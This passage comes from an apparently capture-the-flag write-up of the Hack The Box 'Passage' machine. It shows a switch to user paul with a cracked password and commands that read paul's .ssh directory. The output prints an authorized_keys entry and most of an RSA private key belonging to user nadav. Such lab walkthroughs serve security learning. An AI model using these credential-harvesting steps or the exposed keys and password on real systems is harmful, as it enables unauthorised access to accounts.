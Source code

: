 Then we escalated our privilege to user paul.

![paul](/assets/posts/ctf/hackthebox/machines/passage/img/paul.png)
_Escalate privilege to user paul_

```bash
www-data@passage:/var/www/html/CuteNews$ su paul
Password: atlanta1
paul@passage:/var/www/html/CuteNews$ id
uid=1001(paul) gid=1001(paul) groups=1001(paul)
```

User flag can be found in `/home/paul/user.txt`.

## [USER: nadav] -> SSH id_rsa Key Disclosure

In `/home/paul/.ssh` directory, disclosed user `nadav` SSH private key (id_rsa). The `/home/paul/.ssh/authorized_keys` specifies SSH keys that can be used for logging into the user `nadav` account for which the file is configured.

```terminal
paul@passage:~$ ls -lsa .ssh/            
total 24
4 drwxr-xr-x  2 paul paul 4096 Jul 21  2020 .
4 drwxr-x--- 16 paul paul 4096 Feb  5 06:30 ..
4 -rw-r--r--  1 paul paul  395 Jul 21  2020 authorized_keys
4 -rw-------  1 paul paul 1679 Jul 21  2020 id_rsa
4 -rw-r--r--  1 paul paul  395 Jul 21  2020 id_rsa.pub
4 -rw-r--r--  1 paul paul 1312 Jul 21  2020 known_hosts
paul@passage:~$ cat .ssh/authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
paul@passage:~$ cat .ssh/id_rsa 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAs14rHBRld5fU9oL1zpIfcPgaT54Rb+QDj2oAK4M1g5PblKu/
+L+JLs7KP5QL0CINoGGhB5Q3aanfYAmAO7YO+jeUS266BqgOj6PdUOvT0GnS7M4i
Z2Lpm4QpYDyxrgY9OmCg5LSN26Px948WE12N5HyFCqN1hZ6FWYk5ryiw5AJTv/kt
rWEGu8DJXkkdNaT+FRMcT1uMQ32y556fczlFQaXQjB5fJUXYKIDkLhGnUTUcAnSJ
JjBGOXn1d2LGHMAcHOof2QeLvMT8h98hZQTUeyQA5J+2RZ63b04dzmPpCxK+hbok
sjhFoXD8m5DOYcXS/YHvW1q3knzQtddtqquPXQIDAQABAoIBAGwqMHMJdbrt67YQ
eWztv1ofs7YpizhfVypH8PxMbpv/MR5xiB3YW0DH4Tz/6TPFJVR/K11nqxbkItlG
QXdArb2EgMAQcMwM0mManR7sZ9o5xsGY+TRBeMCYrV7kmv1ns8qddMkWfKlkL0lr
lxNsimGsGYq10ewXETFSSF/xeOK15hp5rzwZwrmI9No4FFrX6P0r7rdOaxswSFAh
zWd1GhYk+Z3qYUhCE0AxHxpM0DlNVFrIwc0DnM5jogO6JDxHkzXaDUj/A0jnjMMz
R0AyP/AEw7HmvcrSoFRx6k/NtzaePzIa2CuGDkz/G6OEhNVd2S8/enlxf51MIO/k
7u1gB70CgYEA1zLGA35J1HW7IcgOK7m2HGMdueM4BX8z8GrPIk6MLZ6w9X6yoBio
GS3B3ngOKyHVGFeQrpwT1a/cxdEi8yetXj9FJd7yg2kIeuDPp+gmHZhVHGcwE6C4
IuVrqUgz4FzyH1ZFg37embvutkIBv3FVyF7RRqFX/6y6X1Vbtk7kXsMCgYEA1WBE
LuhRFMDaEIdfA16CotRuwwpQS/WeZ8Q5loOj9+hm7wYCtGpbdS9urDHaMZUHysSR
AHRFxITr4Sbi51BHUsnwHzJZ0o6tRFMXacN93g3Y2bT9yZ2zj9kwGM25ySizEWH0
VvPKeRYMlGnXqBvJoRE43wdQaPGYgW2bj6Ylt18CgYBRzSsYCNlnuZj4rmM0m9Nt
1v9lucmBzWig6vjxwYnnjXsW1qJv2O+NIqefOWOpYaLvLdoBhbLEd6UkTOtMIrj0
KnjOfIETEsn2a56D5OsYNN+lfFP6Ig3ctfjG0Htnve0LnG+wHHnhVl7XSSAA9cP1
9pT2lD4vIil2M6w5EKQeoQKBgQCMMs16GLE1tqVRWPEH8LBbNsN0KbGqxz8GpTrF
d8dj23LOuJ9MVdmz/K92OudHzsko5ND1gHBa+I9YB8ns/KVwczjv9pBoNdEI5KOs
nYN1RJnoKfDa6WCTMrxUf9ADqVdHI5p9C4BM4Tzwwz6suV1ZFEzO1ipyWdO/rvoY
f62mdwKBgQCCvj96lWy41Uofc8y65CJi126M+9OElbhskRiWlB3OIDb51mbSYgyM
Uxu7T8HY2CcWiKGe+TEX6mw9VFxaOyiBm8ReSC7Sk21GASy8KgqtfZy7pZGvazDs
```